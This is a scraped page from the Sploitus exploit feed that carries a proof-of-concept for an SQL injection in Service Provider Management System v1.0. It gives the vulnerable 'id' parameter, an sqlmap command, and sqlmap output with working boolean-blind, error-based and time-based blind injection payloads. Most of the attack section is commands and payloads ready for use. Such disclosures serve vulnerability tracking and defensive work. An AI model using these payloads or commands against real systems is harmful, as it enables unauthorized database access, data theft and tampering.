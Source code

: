 ```yaml
---
title: Service Provider Management System v1.0 - SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38731&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-27
fetch_date: 2025-10-04T11:38:51.024403
---
```


# Service Provider Management System v1.0 - SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Service Provider Management System v1.0 - SQL Injection Vulnerability

2023-05-26 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38731
# Exploit Title: Service Provider Management System v1.0 - SQL Injection
# Exploit Author: Ashik Kunjumon
# Vendor Homepage: https://www.sourcecodester.com/users/lewa
# Software Link: https://www.sourcecodester.com/php/16501/service-provider-management-system-using-php-and-mysql-source-code-free-download.html
# Version: 1.0
# Tested on: Windows/Linux

1. Description:

Service Provider Management System v1.0 allows SQL Injection via ID
parameter in /php-spms/?page=services/view&id=2
Exploiting this issue could allow an attacker to compromise the
application, access or modify data,
or exploit the latest vulnerabilities in the underlying database.

Endpoint: /php-spms/?page=services/view&id=2

Vulnerable parameter: id (GET)

2. Proof of Concept:
----------------------

Step 1 - By visiting the url:
http://localhost/php-spms/?page=services/view&id=2 just add single quote to
verify the SQL Injection.
Step 2 - Run sqlmap -u " http://localhost/php-spms/?page=services/view&id=2"
-p id --dbms=mysql

SQLMap Response:
----------------------
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=services/view&id=1' AND 8462=8462 AND 'jgHw'='jgHw

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP
BY clause (FLOOR)
    Payload: page=services/view&id=1' AND (SELECT 1839 FROM(SELECT
COUNT(*),CONCAT(0x7178717171,(SELECT
(ELT(1839=1839,1))),0x7176786271,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Cqhk'='Cqhk

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=services/view&id=1' AND (SELECT 1072 FROM
(SELECT(SLEEP(5)))lurz) AND 'RQzT'='RQzT
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)